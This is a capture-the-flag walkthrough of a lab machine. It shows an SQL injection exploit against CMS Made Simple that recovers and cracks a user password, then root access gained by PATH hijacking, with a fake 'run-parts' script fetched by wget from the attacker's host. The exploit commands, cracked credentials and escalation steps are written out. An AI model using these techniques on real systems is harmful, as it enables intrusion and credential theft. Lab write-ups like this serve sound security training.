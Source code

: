 # Writeup

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.203
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 11:25 EDT
Nmap scan report for 10.129.95.203
Host is up (0.14s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Port 80 -> SQL Injection

Port 80 just hosts this image:

<figure><img src="../../../.gitbook/assets/image (604).png" alt=""><figcaption></figcaption></figure>

This thing says that it is banning IPs that send too many requests, so a directory scan might be counterproductive. Instead, based on the text, going to `/writeup` works.&#x20;

<figure><img src="../../../.gitbook/assets/image (843).png" alt=""><figcaption></figcaption></figure>

Viewing the page source reveals that this is using CMS Made Simple:

<figure><img src="../../../.gitbook/assets/image (2745).png" alt=""><figcaption></figcaption></figure>

There are loads of exploits for this software.

```
$ searchsploit made simple
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Cod | php/remote/46627.rb
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting    | php/webapps/26298.txt
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion    | php/webapps/26217.html
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting | php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection     | php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vu | php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities          | php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution                | php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection       | php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File  | php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion               | php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure              | php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site  | php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities           | php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery           | php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclus | php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Re | php/webapps/34068.html
CMS Made Simple 2.1.6 - 'cntnt01detailtemplate' Server-Sid | php/webapps/48944.py
CMS Made Simple 2.1.6 - Multiple Vulnerabilities           | php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution              | php/webapps/44192.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authentica | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Uplo | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting ( | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)               | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via S | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execut | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execut | php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Pois | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                   | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File  | php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary  | php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) A | php/webapps/46546.py
----------------------------------------------------------- ---------------------------------
```

I tried a few of them, and only the SQL Injection one worked.&#x20;

```
$ python3 46635.py -u http://10.129.95.203/writeup --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

With this, we can `ssh` in as `jkr`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2184).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation

### PATH Hijacking

I ran a LinPEAS scan to enumerate for me, which found that we are part of the `staff` group that can write to certain directories:

```
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
Group staff:
/usr/local/bin
/usr/local/games
/usr/local/sbin
<TRUNCATED>
```

Having write access to these directories means that we can do PATH hijacking by creating an executable in those files with the same name as processes run by `root`. As such, I downloaded `pspy64` onto the machine to see if `root` was running any processes without full paths.&#x20;

When run, I saw these processes that were run:

```
2023/05/06 05:02:16 CMD: UID=0    PID=12903  | run-parts --lsbsysinit /etc/update-motd.d 
2023/05/06 05:02:16 CMD: UID=0    PID=12904  | /bin/sh /etc/update-motd.d/10-uname
```

The `run-parts` command did not have a full path, meaning that we can exploit this. We can create a basic `bash` script that makes `/bin/bash` an SUID binary. Then we can download it into the `/usr/local/bin` directory:

```
jkr@writeup:/usr/local/bin$ wget 10.10.14.13:8000/run-parts
--2023-05-06 05:03:51--  http://10.10.14.13:8000/run-parts
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 32 [application/octet-stream]
Saving to: ‘run-parts’

run-parts               100%[============================>]      32  --.-KB/s    in 0s      

2023-05-06 05:03:51 (6.62 MB/s) - ‘run-parts’ saved [32/32]

jkr@writeup:/usr/local/bin$ chmod +x run-parts
```

Afterwards, we just need to `ssh` back into the machine to execute it and get a `root` shell.

<figure><img src="../../../.gitbook/assets/image (853).png" alt=""><figcaption></figcaption></figure>

